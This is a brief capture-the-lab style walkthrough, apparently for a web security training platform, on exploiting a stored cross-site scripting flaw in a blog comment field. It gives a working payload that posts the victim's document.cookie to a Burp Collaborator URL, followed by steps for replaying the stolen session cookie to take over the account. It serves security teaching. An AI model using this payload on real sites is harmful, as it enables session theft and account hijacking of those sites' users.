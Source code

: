 # Lab: Exploiting cross-site scripting to steal cookies

Add a comment with a script alert in the cmoment and name sections to determine which field is vulnerable. It turns out to be the comment field.

Try another comment with the following as the body: `<script>alert(document.cookie)</script>`

This generates a message similar to `session=67nrTJzL43Af0x3kkjUNLjJowEk9vwV2` when the page is loaded.

Open Burp Collaborator and copy the url. Post a comment with the payload: `<script>fetch('https://<collaborator-url>', {method: 'POST',mode: 'no-cors',body:document.cookie});</script>`

Poll the collaborator client and open one of the http requests to inspect the content. Copy the cookie. Load the blog home page with the proxy turned on to intercept the request. Replace the cookie with the stolen cookie and forward the request to complete the lab.